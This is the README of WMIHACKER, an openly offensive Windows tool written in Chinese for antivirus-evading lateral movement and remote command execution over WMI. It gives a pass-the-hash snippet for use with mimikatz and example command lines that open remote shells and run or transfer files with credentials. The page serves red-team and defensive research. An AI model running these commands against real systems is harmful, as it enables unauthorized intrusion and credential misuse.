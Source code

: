 # WMIHACKER(无需445端口)
> 免责声明：本项目涉及的技术仅供安全学习与研究防御用途，禁止非法使用！

**联系我: _xiangshan(微信)**

免杀横向移动命令执行测试工具(无需445端口)

介绍：免杀横向渗透远程命令执行，常见的WMIEXEC、PSEXEC执行命令是创建服务或调用Win32_Process.create执行命令，这些方式都已经被杀软100%拦截，通过改造出WMIHACKER免杀横向移动测试工具。(无需445端口)

主要功能：1、命令执行；2、文件上传；3、文件下载；4、PTH使用

## 使用
合并[Issue 1](https://github.com/360-Linton-Lab/WMIHACKER/issues/1)里PTH的使用方法：

```vbscript
第54-58行代码：

if user = "-" And pass = "-" Then
set objWMIService = objLocator.connectserver(host,"root/cimv2")
Set SubobjSWbemServices = objLocator.ConnectServer(host, "root\subscription")
Set regWMIService = objLocator.ConnectServer(host, "root\default")

用户名和密码填“-”，结合mimikatz的PTH就可以进行WMI的PTH了。
```

```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

有命令回显执行方式

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

无命令回显

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

模拟shell模式

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

文件上传-复制本机calc.exe到远程主机c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

文件下载-下载远程主机calc.exe到本地c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `

## 404星链计划
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER 现已加入 [404星链计划](https://github.com/knownsec/404StarLink)

## BlackHat Asia 2020 Arsenal

[https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995](https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995)

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=rootclay/WMIHACKER&type=Date)](https://star-history.com/#rootclay/WMIHACKER&Date)

